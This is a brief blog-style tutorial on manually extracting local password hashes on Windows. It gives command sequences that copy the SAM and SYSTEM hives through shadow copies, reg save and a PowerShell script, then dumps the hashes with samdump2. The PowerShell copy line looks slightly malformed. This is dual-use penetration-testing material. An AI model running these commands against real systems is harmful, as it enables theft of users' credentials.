 title: Manual Local Hash Extraction
publish: True
categories: [network security]

There has been enough interest around the topic of manual local hash extraction that I wanted to document all of the techniques I am aware of in one place.

<!-- READMORE -->

The SAM and SYSTEM hives hold the necessary information to acquire authentication hashes for all local users on a Windows operating system. Normally, these files are locked and inaccessible, even by the SYSTEM and Administrator accounts. The following techniques are ways to access the SAM and SYSTEM hives within a Windows operating system during normal operation. Be advised that these techniques require Administrator or SYSTEM level privileges.

### Volume Shadow Copy Service

``` text
vssadmin create shadow /for=c: #if required
vssadmin list shadows
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<#_from_above>\windows\system32\config\SYSTEM .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<#_from_above>\windows\system32\config\SAM .
```

[Reference](http://pauldotcom.com/2011/11/safely-dumping-hashes-from-liv.html)

### Registry Access

``` text
reg save hklm\sam SAM
reg save hklm\system SYSTEM
```

[Reference](http://exfiltrated.com/tools.php#SAMExtract)

### PowerShell Script

``` text
$service=(Get-Service -name VSS)
if($service.Status -ne "Running"){$notrunning=1;$service.Start()}
$id=(gwmi -list win32_shadowcopy).Create("C:\","ClientAccessible").ShadowID
$volume=(gwmi win32_shadowcopy -filter "ID='$id'")
`cmd /c copy "$($volume.DeviceObject)\windows\system32\config\SAM"\`
$volume.Delete();if($notrunning -eq 1){$service.Stop()}
```

[Reference](http://www.canhazcode.com/index.php?a=4)

### Finishing the Job

Use the following commands to finish the job. Both applications are included in the Kali default tool set.

``` bash
bkhive SYSTEM keyfile
samdump2 SAM keyfile
```
